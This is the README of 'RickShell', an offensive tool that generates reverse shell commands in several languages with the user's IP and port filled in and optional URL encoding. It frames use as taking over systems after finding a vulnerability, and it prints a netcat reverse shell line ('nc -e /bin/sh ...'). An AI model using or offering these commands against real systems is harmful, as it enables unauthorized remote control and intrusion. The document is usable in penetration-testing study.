 
# 🧬 RickShell  

⠀⠀⠀⠐⣦⣴⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⣻⣿⣿⣿⡄⠀⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠈⠹⣯⣿⣿⡃⠀⠀⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⢀⣹⣟⣡⡤⠴⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣠⡶⠋⢹⣿⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣶⣿⣿⡄⠀⠀⠀
⠀⣼⠃⠀⠀⢀⣿⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⣿⣿⣿⡀⠀⠀
⢸⠇⠀⠀⠀⣼⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣶⣾⡟⣷⣂⣀⡤⠖
⠿⠊⠲⣶⠿⠛⠫⣶⣧⣀⣀⡀⠀⠀⠀⠀⣠⠞⠁⣴⣿⡿⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⢀⡿⠀⠉⠉⣩⡿⠀⠀⠀⠉⠀⣼⣿⡿⠁⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⣼⠃⠀⠀⣰⠟⠀⢀⠀⠀⠀⢠⣿⣿⣁⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⢀⡼⠃⠀⠀⢴⣅⠀⠀⠉⠘⠲⠴⠟⠁⠈⠙⢷⡀⠀⠀⠀⠀⠀
⠀⠀⠀⣰⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠇⠀⠀⠀⠀⠀
⠀⠀⠰⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠁⠀⠀⠀⠀

use one of the reverse shell commands in this tool to take ownership of the system when you find a vulnerability that you can exploit ;-)

## 💡 HOW TO USE

`RickShell` command gives you the **top 10** most used shells. The tool will automatically type your ip address and a suitable port into the command.

### The following arguments can be used:

- `RickShell -p netcat` *netcat reverse shell commands.*

- `RickShell - p bash`   *bash reverse shell commands.*

- `RickShell -p php` *php reverse shell commands.* 

- `RickShell -p python` *python reverse shell commands.*

- `RickShell -p java` *java reverse shell commands.*
 
- `RickShell -p powershell`  *powershell reverse shell commands.*

- `RickShell -p telnet` *telnet reverse shell commands.*

---
_these commands automatically assign your ip address and port. 🪄_
 - e.g: `nc -e /bin/sh 192.168.100.23 4444  `

_but if you want to use a different ip and port, you can use the following arguments_

- `RickShell -ip 192.168.1.1 --port 4242`
- `RickShell -p bash -ip 192.168.1.1 --port 4242`  etc.
---
#### 🌐  if you are going to use it in the url, use the following command. this sets your shell command for the url (-ue)

- `RickShell -ue` / `RickShell -p bash -ue` / 
- `RickShell -ip 192.168.1.1 --port 4242 -ue` etc.

---

## 📜 Installation

`git clone https://github.com/Rickidevs/RickShell.git`

`cd RickShell`

`chmod +x setup.sh`

`./setup.sh`

---

## ⚖️  Disclaimer

_you are fully responsible for legal or illegal use. remember that this tool is designed for education_

---

✉️ Contact Me   - [Telegram](https://t.me/hackerrick)
